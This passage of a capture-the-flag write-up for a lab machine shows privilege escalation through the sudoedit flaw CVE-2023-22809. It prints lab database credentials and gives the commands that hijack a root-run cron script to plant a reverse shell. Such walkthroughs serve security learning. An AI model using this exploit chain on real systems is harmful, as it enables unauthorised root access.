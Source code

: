 This `/app/config_test.json` config file contains mysql creds - `superpasstester:VUO8A2c2#3FnLq3*a9DX1U`

```bash
sudo -u dev_admin sudoedit /app/config_test.json
```

![](screenshots/sudoedit-config.png)

But these creds doesn't help and after some ramblling, i found a CVE CVE-2023-22809 in sudo versions: 1.8.0 to 1.9.12p1

> In Sudo before 1.9.12p2, the sudoedit (aka -e) feature mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.

and running sudo version is 
```bash
edwards@agile:/dev/shm$ sudo -V
Sudo version 1.9.9
```

So we can edit any file that owned by user "dev_admin". 

Finding everything that owned by "dev_admin"

```bash
edwards@agile:~$ find / -user dev_admin 2>/dev/null
/home/dev_admin
/app/app-testing/tests/functional/creds.txt
/app/config_test.json
/app/config_prod.json

edwards@agile:~$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

and pspy catch a event where a cron is executing `/app/venv/bin/activate` as root.



So we can add reverse shell in the `/app/venv/bin/activate` bash script. and cron will execute this as root.
```bash
export EDITOR="vim -- /app/venv/bin/activate"
sudo -u dev_admin sudoedit /app/config_test.json
```
